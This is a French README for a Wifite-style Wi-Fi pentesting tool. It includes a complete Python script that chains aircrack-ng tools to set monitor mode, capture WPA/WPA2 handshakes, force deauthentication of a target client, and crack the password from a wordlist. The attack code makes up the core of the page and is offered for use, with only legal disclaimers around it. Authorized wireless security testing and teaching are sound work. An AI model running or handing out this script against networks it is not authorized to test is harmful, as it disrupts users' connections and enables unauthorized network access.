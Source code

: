 # Wi-Fi Pentesting Tool (Type Wifite)

## Description

Ce projet est un outil de pentesting Wi-Fi en Python, inspiré de **Wifite**, qui automatise la détection de réseaux Wi-Fi, la capture de handshakes WPA/WPA2, et permet d'effectuer des attaques de désauthentification. L'outil utilise des programmes tels que `aircrack-ng`, `airodump-ng` et `aireplay-ng` pour interagir avec les interfaces réseau en mode monitor, capturer des paquets et tenter de craquer les mots de passe des réseaux Wi-Fi.

### ⚠️ Avertissement

Ce programme est uniquement destiné à des **fins éducatives** et de **tests de sécurité autorisés** (pentests légaux). Toute utilisation non autorisée de cet outil sur des réseaux Wi-Fi peut enfreindre la loi et entraîner des poursuites. N'utilisez cet outil que sur des réseaux pour lesquels vous avez l'autorisation expresse d'exécuter des tests de sécurité.

---

## Fonctionnalités

- Met en place l'interface Wi-Fi en mode monitor
- Scanne les réseaux Wi-Fi à proximité et capture les handshakes WPA/WPA2
- Effectue des attaques de désauthentification pour forcer la capture de handshakes
- Automatise le processus de craquage de mot de passe à l'aide de `aircrack-ng` et d'une liste de mots de passe
- Compatible avec les interfaces Wi-Fi qui supportent le mode monitor

---

## Prérequis

### Systèmes d'exploitation supportés

- **Linux** (Kali Linux ou toute distribution avec les outils de pentesting)

### Outils requis

- **Python 3.x**
- **Aircrack-ng** suite : `airmon-ng`, `airodump-ng`, `aireplay-ng`, `aircrack-ng`
- **Scapy** : bibliothèque pour la manipulation de paquets réseau
- **PyRIC** : bibliothèque pour interagir avec les interfaces Wi-Fi en Python

#### Installation des dépendances :

```bash
# Installation des outils Aircrack-ng
sudo apt-get install aircrack-ng

# Installation des bibliothèques Python
pip install scapy pyric
```
## Utilisation

### 1. Mettre l'interface Wi-Fi en mode monitor

Avant de pouvoir capturer des paquets réseau, l'interface Wi-Fi doit être configurée en mode monitor. Le script utilise `airmon-ng` pour automatiser cette étape.

### 2. Scanner les réseaux Wi-Fi

Lancez un scan pour détecter les réseaux Wi-Fi à proximité, afficher les ESSID (nom du réseau), BSSID (adresse MAC) et autres informations. Cela vous permet de choisir la cible à attaquer.

### 3. Capturer le handshake WPA/WPA2

Le script capture le handshake WPA/WPA2 pour les réseaux cryptés. Ce fichier de handshake sera ensuite utilisé pour tenter de craquer le mot de passe.

### 4. Désauthentifier un client

Vous pouvez forcer un client connecté à se déconnecter temporairement d'un réseau pour capturer le handshake de nouvelle connexion. Cette étape utilise `aireplay-ng` pour effectuer une attaque de désauthentification.

### 5. Craquer le mot de passe

Une fois le handshake capturé, vous pouvez tenter de craquer le mot de passe en utilisant un dictionnaire de mots de passe. Le script utilise `aircrack-ng` pour cela.

---

## Exemple d'utilisation

Voici un exemple de script Python pour automatiser ce processus :

```python
import subprocess

# Fonction pour passer l'interface en mode monitor
def set_monitor_mode(interface):
    subprocess.run(["airmon-ng", "start", interface])

# Fonction pour scanner les réseaux Wi-Fi
def scan_networks(interface):
    subprocess.run(["airodump-ng", interface])

# Fonction pour capturer un handshake WPA/WPA2
def capture_handshake(bssid, channel, output_file, interface):
    subprocess.run(["airodump-ng", "-c", channel, "--bssid", bssid, "-w", output_file, interface])

# Fonction pour désauthentifier un client
def deauth_attack(bssid, client_mac, interface):
    subprocess.run(["aireplay-ng", "--deauth", "10", "-a", bssid, "-c", client_mac, interface])

# Fonction pour tenter de craquer le mot de passe avec un handshake capturé
def crack_password(handshake_file, wordlist):
    subprocess.run(["aircrack-ng", "-w", wordlist, handshake_file])

# Exemple d'utilisation :
interface = "wlan0"  # Remplace par ton interface Wi-Fi

# Étape 1 : Mettre en mode monitor
set_monitor_mode(interface)

# Étape 2 : Scanner les réseaux Wi-Fi
scan_networks(interface + "mon")

# Étape 3 : Capture du handshake
bssid = "00:11:22:33:44:55"  # Remplace par le BSSID du réseau cible
channel = "6"  # Remplace par le canal du réseau cible
capture_handshake(bssid, channel, "handshake", interface + "mon")

# Étape 4 : Désauthentifier un client
client_mac = "66:77:88:99:AA:BB"  # Remplace par l'adresse MAC du client
deauth_attack(bssid, client_mac, interface + "mon")

# Étape 5 : Craquer le mot de passe
crack_password("handshake-01.cap", "wordlist.txt")
```
## Limitations

- Ce script est limité à l'automatisation des attaques Wi-Fi supportées par les outils `aircrack-ng`.
- La réussite du craquage de mot de passe dépend de la qualité du dictionnaire de mots de passe utilisé.
- Le matériel (carte Wi-Fi compatible avec le mode monitor) peut limiter les fonctionnalités.

---

## À propos de la sécurité

**⚠️ Utilisation responsable :** Cet outil ne doit être utilisé que sur des réseaux dont vous êtes propriétaire ou pour lesquels vous avez une autorisation explicite pour effectuer des tests de sécurité. L'utilisation non autorisée d'un outil de craquage de Wi-Fi est **illégale** dans de nombreux pays et peut avoir des conséquences légales sérieuses.

---

## Licence

Ce projet est publié sous la licence **MIT License**. Vous êtes libre de l'utiliser, de le modifier et de le distribuer, mais uniquement dans le cadre légal.

---

## Contributeurs

- Rakulan SIVATHASAN
- Contributions, suggestions et améliorations sont les bienvenues !

---

## Remarques finales

N'oubliez pas de toujours travailler de manière éthique et dans le respect de la loi lorsque vous utilisez des outils de pentesting.

